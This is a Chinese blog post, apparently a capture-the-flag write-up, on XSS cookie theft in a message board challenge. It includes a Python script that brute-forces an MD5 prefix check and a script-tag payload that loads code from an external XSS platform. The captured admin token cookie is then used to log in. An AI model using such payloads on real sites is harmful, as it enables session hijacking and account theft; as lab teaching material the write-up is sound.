 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XSS攻击--获取cookie  # 标题 
subtitle:   跨站脚本攻击   #副标题
date:       2020-03-14              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - XSS  
    
    
---
```


## 原理:

跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

xss漏洞通常是通过php的输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行的，所以xss漏洞关键就是寻找参数未过滤的输出函数。




## 题目:
Leave a message:（                  ）

substr(md5('       '),0,6) === '51a081'



## 考察点：

**1.XSS攻击获取cookie**

**2.md5截断绕过**

## 知识点：

**实例**

从字符串中返回 "world"：

---  php
<?php
echo substr("Hello world",6);
?>
---

语法：`substr(string,start,length)` 

**start**
             必需。规定在字符串的何处开始。
             正数 - 在字符串的指定位置开始
             负数 - 在从字符串结尾的指定位置开始
              0 - 在字符串中的第一个字符处开始
**length**
             可选。规定要返回的字符串长度。默认是直到字符串的结尾。
             正数 - 从 start 参数所在的位置返回
             负数 - 从字符串末端返回


## 解题过程：

**1.** 首先分析页面代码，发现留言框里面可能出现xss漏洞，然后我发现要想成功插入留言内容，必须需要满足`substr(md5('       '),0,6) === '51a081' `的条件，此条代码的含义是括号中的字符串的md5值前六位为`51a081`，可以通过python脚本进行字典爆破。

--- php
import hashlib
for i in range (100000000):
    a=str(i)
    md5=hashlib.md5(a.encode('utf-8')).hexdigest()
    if md5[0:6]=='51a081':
        break
print (a)

---

得到结果：`252192`

**2.** 允许插入的条件满足了，然后就是利用[XSS平台](https://xsshs.cn/)进行获取`cookie`。先在XSS平台，创建项目，选取默认设置即可。然后将项目后的XSS代码，`<sCRiPt/SrC=//xsshs.cn/PArz>`插入留言框，等待几分钟，发现XSS平台已经得到了管理员的`cookie`。

---
location : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
toplocation : http://web/usermessages/1584098792-443ed1dd377f4a44f536c2830eb8f606.html
cookie : token=a9011a0e551f181c1c526881befac44d
opener : 

---

**3.**将cookie复制下来，用菜刀进行登录admin.php界面，拿到flag！



**flag{this_is_a_xss_flag}**





[参考链接（一）--XSS简介](https://www.jianshu.com/p/4fcb4b411a66)

[参考链接（二）--XSS平台的使用](https://www.sohu.com/a/111617739_458138)

## 谢谢您的查阅，欢迎来访！
